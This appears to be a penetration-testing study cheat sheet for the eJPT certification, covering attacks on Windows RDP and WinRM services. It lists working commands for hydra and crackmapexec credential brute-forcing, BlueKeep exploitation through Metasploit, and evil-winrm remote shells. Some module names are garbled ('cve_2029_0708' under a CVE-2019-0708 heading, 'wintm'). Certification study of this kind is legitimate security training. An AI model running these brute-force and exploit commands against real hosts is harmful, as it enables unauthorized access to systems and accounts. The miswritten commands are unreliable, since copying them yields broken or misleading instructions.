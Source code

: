 # RDP

- Authentication requires a legitimate user account and password in clear-text

## Exploiting

```shell
nmap -sV -p- <IP>
msf6 auxiliary(scanner/rdp/rdp_scanner)
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.2.20.46 -s 3333
xfreerdp /u:<USER> /p:<PASSWORD> /v:<IP>:><PORT>
```

# RDP Vulnerability CVE-2019-0708 (BlueKeep)

- Allow attackers to **gain access to a chunk of kernel memory** consequently allowing to remotely execute arbitrary code at the system level without authentication.

## Exploit

```shell
msf6: auxiliary(scanner/rdp/cve_2029_0708_bluekeep)
msf6: exploit(windows/rdp/cve_2029_0708_bluekeep_rce) (works only x64)
	show targets
```

# WinRM

TCP port 5985 and 5986 (HTTPS)

Tipically used:
- Remotely access and interact with Windows hosts on a local network
- Remotely access and execute commands on Windows systems
- Manage and configure Windows systems remotely

Authentication:
- username:password
- username:passwordhash 

Tool:
- crackmapexec (brute-force)
- evil-winrm (ruby script, obtain command shell session)

## Exploit

```shell
crackmapexec winrm <IP> -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_password.txt
crackmapexec wintm <IP> -u administrator -p <PASSWORD> -x "command-here"

evil-winrm -u administrator -p '<password>' -i <IP>

msf6: auxiliary(scanner/winrm/winrm_login)
msf6: exploit(windows/winrm/winrm_script_exec)
```

#eJPT #cybersecurity 